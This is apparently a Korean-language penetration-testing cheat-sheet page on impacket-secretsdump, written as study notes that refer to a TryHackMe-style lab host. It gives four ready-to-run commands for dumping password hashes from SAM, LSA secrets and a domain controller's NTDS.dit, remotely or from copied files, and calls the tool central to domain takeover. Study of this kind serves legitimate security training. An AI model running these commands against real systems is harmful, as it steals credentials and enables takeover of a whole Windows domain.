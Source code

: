 ```yaml
---
layout: page
title: secretsdump
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


### **크리덴셜 덤프 및 파일 공유 (Credential Dumping & File Sharing)**

- **목적:** 원격 시스템의 SAM, LSA Secrets, NTDS.dit 등에서 모든 종류의 크리덴셜을 덤프합니다.
- **특징:** 도메인 장악의 핵심 도구입니다.

```bash
# 원격 시스템의 모든 해시 덤프 (SAM, LSA, cached)
impacket-secretsdump <domain>/<user>:<password>@$target

# 도메인 컨트롤러의 NTDS.dit 덤프
impacket-secretsdump <domain>/<DA_user>:<password>@<DC_IP> -just-dc-ntlm

# GetST로 캐시 생성 후
impacket-secretsdump -k -no-pass HayStack.thm.corp

# ntds.dit, SYSTEM, SAM 파일 획득한 경우
impacket-secretsdump -ntds ntds.dit -sam sam -system system local
```

